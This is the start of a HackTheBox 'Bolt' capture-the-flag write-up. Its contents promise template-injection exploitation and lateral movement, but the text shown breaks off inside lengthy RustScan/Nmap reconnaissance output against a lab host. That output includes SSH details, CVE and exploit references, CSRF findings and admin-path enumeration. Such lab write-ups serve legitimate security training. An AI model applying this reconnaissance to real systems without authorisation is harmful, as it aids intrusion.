




# HackTheBox(HTB) - Bolt - WriteUp

> Austin Lai | November 26th, 2021

---

<!-- Description -->


Difficulty: Medium

The room is completed on November 25th, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBox(HTB) - Bolt - WriteUp](#hacktheboxhtb---bolt---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Network Reconnaissance](#network-reconnaissance)
        - [Web Enumeration and Fuzzing](#web-enumeration-and-fuzzing)
            - [Checking on port 80 - HTTP](#checking-on-port-80---http)
            - [Checking on port 443 - HTTPS](#checking-on-port-443---https)
            - [Virtual host fuzzing](#virtual-host-fuzzing)
            - [Checking on mail.bolt.htb](#checking-on-mailbolthtb)
            - [Checking on demo.bolt.htb](#checking-on-demobolthtb)
            - [Additional finding on cookies when perform web enumeration](#additional-finding-on-cookies-when-perform-web-enumeration)
        - [Image.tar inspection](#imagetar-inspection)
            - [a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2](#a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2)
            - [e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad](#e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad)
        - [Stuck and research - SSTI Server-side template injection](#stuck-and-research---ssti-server-side-template-injection)
        - [SSTI Server-side template injection Exploit](#ssti-server-side-template-injection-exploit)
        - [Enumerate system with low-level access](#enumerate-system-with-low-level-access)
        - [Enumerate user and lateral move](#enumerate-user-and-lateral-move)
            - [user.txt](#usertxt)
            - [Enumerate user home directory](#enumerate-user-home-directory)
        - [Lateral move from eddie user](#lateral-move-from-eddie-user)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

### Network Reconnaissance

<details><summary>Simple Rustscan</summary>

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.114:22
Open 10.10.11.114:80
Open 10.10.11.114:443
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-22 20:30 +08

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
           Raw packets sent: 3 (132B) | Rcvd: 3 (132B)
```

</details>

<details><summary>Full Rustscan</summary>

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.114:22
Open 10.10.11.114:443
Open 10.10.11.114:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-22 20:37 +08

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4d:20:8a:b2:c2:8c:f5:3e:be:d2:e8:18:16:28:6e:8e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDkj3wwSWqzkYHp9SbRMcsp8vHlgm5tTmUs0fgeuMCowimWCqCWdN358ha6zCdtC6kHBD9JjW+3puk65zr2xpd/Iq2w+UZzwVR070b3eMYn78xq+Xn6ZrJg25e5vH8+N23olPkHicT6tmYxPFp+pGo/FDZTsRkdkDWn4T2xzWLjdq4Ylq+RlXmQCmEsDtWvNSp3PG7JJaY5Nc+gFAd67OgkH5TVKyUWu2FYrBc4KEWvt7Bs52UftoUTjodRYbOevX+WlieLHXk86OR9WjlPk8z40qs1MckPJi926adEHjlvxdtq72nY25BhxAjmLIjck5nTNX+11a9i8KSNQ23Fjs4LiEOtlOozCFYy47+2NJzFi1iGj8J72r4EsEY+UMTLN9GW29Oz+10nLU1M+G6DQDKxoc1phz/D0GShJeQw8JhO0L+mI6AQKbn0pIo3r9/hLmZQkdXruJUn7U/7q7BDEjajVK3gPaskU/vPJRj3to8g+w+aX6IVSuVsJ6ya9x6XexE=
|   256 7b:0e:c7:5f:5a:4c:7a:11:7f:dd:58:5a:17:2f:cd:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF5my/tCLImcznAL+8z7XV5zgW5TMMIyf0ASrvxJ1mnfUYRSOGPKhT8vfnpuqAxdc5WjXQjehfiRGV6qUjoJ3I4=
|   256 a7:22:4e:45:19:8e:7d:3c:bc:df:6e:1d:6c:4f:41:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGxr2nNJEycZEgdIxL1zHLHfh+IBORxIXLX1ciHymxLO
| ssh2-enum-algos:
|   kex_algorithms: (9)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3   *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207   *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/        4.6     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/  *EXPLOIT*
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/     4.3     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/        *EXPLOIT*
|       MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/   4.3     https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/     *EXPLOIT*
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|_      CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3
80/tcp  open  http     syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
|_http-feed: Couldn't find any feeds.
| http-useragent-tester:
|   Status for browser useragent: 200
|   Allowed User Agents:
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
|_http-malware-host: Host appears to be clean
| http-headers:
|   Server: nginx/1.18.0 (Ubuntu)
|   Date: Mon, 22 Nov 2021 12:38:20 GMT
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 30347
|   Connection: close
|
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.114
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.11.114:80/
|     Form id: exampleinputname1
|     Form action:
|
|     Path: http://10.10.11.114:80/
|     Form id: exampleinputemail3
|     Form action: #
|
|     Path: http://10.10.11.114:80/services
|     Form id: exampleinputemail2
|     Form action: #
|
|     Path: http://10.10.11.114:80/services
|     Form id: exampleinputemail3
|     Form action: #
|
|     Path: http://10.10.11.114:80/index.html
|     Form id: exampleinputname1
|     Form action:
|
|     Path: http://10.10.11.114:80/index.html
|     Form id: exampleinputemail3
|     Form action: #
|
|     Path: http://10.10.11.114:80/pricing
|     Form id: exampleinputemail3
|     Form action: #
|
|     Path: http://10.10.11.114:80/login
|     Form id: exampleinputicon3
|     Form action:
|
|     Path: http://10.10.11.114:80/download
|     Form id: exampleinputemail2
|     Form action: #
|
|     Path: http://10.10.11.114:80/download
|     Form id: exampleinputemail3
|     Form action: #
|
|     Path: http://10.10.11.114:80/register
|     Form id: exampleinputicon4
|_    Form action:
|_http-date: Mon, 22 Nov 2021 12:38:22 GMT; -30m00s from local time.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-title:     Starter Website -  About
| http-auth-finder:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.114
|   url                              method
|   http://10.10.11.114:80/login     FORM
|_  http://10.10.11.114:80/register  FORM
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-grep:
|   (1) http://10.10.11.114:80/:
|     (1) email:
|_      + example@company.com
|_http-chrono: Request times for /; avg: 557.73ms; min: 447.83ms; max: 757.01ms
| http-vhosts:
|_128 names had status 200
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-xssed: No previously reported XSS vuln.
| http-enum:
|   /admin/account.php: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /admin/login.php: Possible admin folder
|   /admin/admin.php: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /admin/login.html: Possible admin folder
|   /admin/admin.html: Possible admin folder
|   /admin/home.php: Possible admin folder
|   /admin/controlpanel.php: Possible admin folder
|   /admin/account.html: Possible admin folder
|   /admin/admin_login.html: Possible admin folder
|   /admin/cp.php: Possible admin folder
|   /admin/admin_login.php: Possible admin folder
|   /admin/admin-login.php: Possible admin folder
|   /admin/home.html: Possible admin folder
|   /admin/admin-login.html: Possible admin folder
|   /admin/adminLogin.html: Possible admin folder
|   /admin/controlpanel.html: Possible admin folder
|   /admin/cp.html: Possible admin folder
|   /admin/adminLogin.php: Possible admin folder
|   /admin/account.cfm: Possible admin folder
|   /admin/index.cfm: Possible admin folder
|   /admin/login.cfm: Possible admin folder
|   /admin/admin.cfm: Possible admin folder
|   /admin/admin_login.cfm: Possible admin folder
|   /admin/controlpanel.cfm: Possible admin folder
|   /admin/cp.cfm: Possible admin folder
|   /admin/adminLogin.cfm: Possible admin folder
|   /admin/admin-login.cfm: Possible admin folder
|   /admin/home.cfm: Possible admin folder
|   /admin/account.asp: Possible admin folder
|   /admin/index.asp: Possible admin folder
|   /admin/login.asp: Possible admin folder
|   /admin/admin.asp: Possible admin folder
|   /admin/home.asp: Possible admin folder
|   /admin/controlpanel.asp: Possible admin folder
|   /admin/admin-login.asp: Possible admin folder
|   /admin/cp.asp: Possible admin folder
|   /admin/admin_login.asp: Possible admin folder
|   /admin/adminLogin.asp: Possible admin folder
|   /admin/account.aspx: Possible admin folder
|   /admin/index.aspx: Possible admin folder
|   /admin/login.aspx: Possible admin folder
|   /admin/admin.aspx: Possible admin folder
|   /admin/home.aspx: Possible admin folder
|   /admin/controlpanel.aspx: Possible admin folder
|   /admin/admin-login.aspx: Possible admin folder
|   /admin/cp.aspx: Possible admin folder
|   /admin/admin_login.aspx: Possible admin folder
|   /admin/adminLogin.aspx: Possible admin folder
|   /admin/index.jsp: Possible admin folder
|   /admin/login.jsp: Possible admin folder
|   /admin/admin.jsp: Possible admin folder
|   /admin/home.jsp: Possible admin folder
|   /admin/controlpanel.jsp: Possible admin folder
|   /admin/admin-login.jsp: Possible admin folder
|   /admin/cp.jsp: Possible admin folder
|   /admin/account.jsp: Possible admin folder
|   /admin/admin_login.jsp: Possible admin folder
|   /admin/adminLogin.jsp: Possible admin folder
|   /admin/upload.php: Admin File Upload
|   /admin/CiscoAdmin.jhtml: Cisco Collaboration Server
|_  /admin/environment.xml: Moodle files
| http-sitemap-generator:
|   Directory structure:
|     /
|       Other: 7; html: 1
|     /static/assets/css/
|       css: 1
|     /static/assets/img/
|       svg: 2
|     /static/assets/js/
|       js: 1
|     /uploads/
|       tar: 1
|   Longest directory structure:
|     Depth: 3
|     Dir: /static/assets/js/
|   Total files found (by extension):
|_    Other: 7; css: 1; html: 1; js: 1; svg: 2; tar: 1
| http-errors:
| Spidering limited to: maxpagecount=40; withinhost=10.10.11.114
|   Found the following error pages:
|
|   Error Code: 404
|_      http://10.10.11.114:80/static/assets/vendor/1fortawesome/fontawesome-free/css/all.min.css
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
| http-php-version: Logo query returned unknown hash 2af853f18897bf321a288c5e4ae4dafd
|_Credits query returned unknown hash 2af853f18897bf321a288c5e4ae4dafd
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-favicon: Unknown favicon MD5: 76362BB7970721417C5F484705E5045D
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.114
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 205
|     Comment:
|         <!-- End of Call Box -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 26555
|     Comment:
|         /**
|          * = Badges
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 340
|     Comment:
|          // equalize
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 19161
|     Comment:
|         /**
|          * = Backgrounds
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28807
|     Comment:
|         /* shadow styles */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 20126
|     Comment:
|         /**
|         * = Helper classes
|         */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18900
|     Comment:
|         /* Vertical layout;
|          *
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 138
|     Comment:
|          // NoUI Slider
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 374
|     Comment:
|          // copy docs
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 170
|     Comment:
|         <!-- End Header -->
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 179
|     Comment:
|         <!-- End of section -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 93
|     Comment:
|         <!-- Section -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 22149
|     Comment:
|         /**
|          * = Shadows
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28635
|     Comment:
|         /**
|          * = Counters
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 103
|     Comment:
|         <!-- Form -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 157
|     Comment:
|          //step: 1000,
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 374
|     Comment:
|         <!--Accordion-->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28552
|     Comment:
|         /**
|          * = Bootstrap carousels
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 30407
|     Comment:
|         /**
|          * = Popovers
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 1
|     Comment:
|         /*
|
|         =========================================================
|         * Pixel Lite Bootstrap Design System
|         =========================================================
|
|         * Product Page: https://themesberg.com/product/ui-kits/pixel-lite-free-bootstrap-4-ui-kit
|         * Copyright 2019 Themesberg (https://www.themesberg.com)
|         * License Themesberg (Crafty Dwarf LLC) (https://themesberg.com/licensing)
|
|         * Coded by https://themesberg.com
|
|         =========================================================
|
|         * The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.
|
|         */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 36
|     Comment:
|          // options
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29603
|     Comment:
|         /**
|          * = Modals
|          */
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 266
|     Comment:
|         <!-- End of Icon Box -->
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 257
|     Comment:
|         <!-- Icon Box -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 32
|     Comment:
|          // $preloader.delay(1500).fadeOut(400);
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18851
|     Comment:
|         /* Markings;
|          *
|          */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 197
|     Comment:
|         <!-- Call Box -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 30245
|     Comment:
|         /**
|          * = Navs
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 21524
|     Comment:
|         /**
|          * = Spacing grids
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 190
|     Comment:
|         <!-- pixel JS -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 271
|     Comment:
|          // When in viewport
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18836
|     Comment:
|         /* Values;
|          *
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18693
|     Comment:
|         /* Wrapper for all connect elements.
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 22
|     Comment:
|          // preloader
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 19084
|     Comment:
|         /* Range slider value labels */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 186
|     Comment:
|         <!-- Visit Box -->
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 194
|     Comment:
|         <!-- End of Visit Box -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 22176
|     Comment:
|         /**
|          * = Text utility classes
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 49
|     Comment:
|         <!-- Favicon -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 20291
|     Comment:
|         /**
|          * = Spacing
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 174
|     Comment:
|         <!-- Core -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29039
|     Comment:
|         /**
|          * = Icon boxes
|          */
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 183
|     Comment:
|         <!-- End Content -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28647
|     Comment:
|         /**
|          * = Custom forms
|          */
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 171
|     Comment:
|         <!-- Content -->
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 160
|     Comment:
|         <!-- Header -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 35
|     Comment:
|         <!-- Open Graph / Facebook -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 22482
|     Comment:
|         /**
|          * = Animations
|          */
|
|     Path: http://10.10.11.114:80/download
|     Line number: 180
|     Comment:
|         <!-- Clients -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 314
|     Comment:
|          // object to keep track of id's and jQuery elements
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29557
|     Comment:
|         /**
|          * = List groups
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28446
|     Comment:
|         /**
|          * = Cards
|          */
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 281
|     Comment:
|         <!-- / Illustration -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 58
|     Comment:
|         <!-- Fontawesome -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 27982
|     Comment:
|         /**
|          * = Breadcrumbs
|          */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 216
|     Comment:
|         <!-- End of Email Box -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 20581
|     Comment:
|         /**
|          * = Sizing
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 26077
|     Comment:
|         /**
|          * = Alerts
|          */
|
|     Path: http://10.10.11.114:80/services
|     Line number: 164
|     Comment:
|         <!-- Icon Boxes -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 1
|     Comment:
|         <!--
|
|         =========================================================
|         * Pixel Lite Bootstrap Design System
|         =========================================================
|
|         * Product Page: https://themesberg.com/product/ui-kits/pixel-lite-free-bootstrap-4-ui-kit
|         * Copyright 2019 Themesberg (https://www.themesberg.com)
|         * License Themesberg (Crafty Dwarf LLC) (https://themesberg.com/licensing)
|
